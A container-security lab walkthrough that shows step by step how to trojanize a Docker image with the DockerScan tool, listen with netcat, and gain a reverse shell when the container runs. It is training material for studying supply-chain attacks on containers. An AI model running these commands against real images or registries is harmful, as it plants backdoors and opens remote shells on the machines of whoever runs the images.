 # **Trojanized Docker Images - DockerScan**

---

> #### A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : `Containers`**

---

#### Step 1:

* Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Install `dockerscan`

```commandline
export LC_CTYPE=en_US.UTF-8 && pip3 install dockerscan
```

* Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

---

#### Step 2:

* Set the necessary environment variables for `dockerscan` to run

```commandline
export LC_ALL=C.UTF-8
```
```commandline
export LANG=C.UTF-8
```

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

> **EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

---

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

> **EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

```commandline
nc -v -k -l $(serverip) 1337
```

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

---

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

---

#### Step 5:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
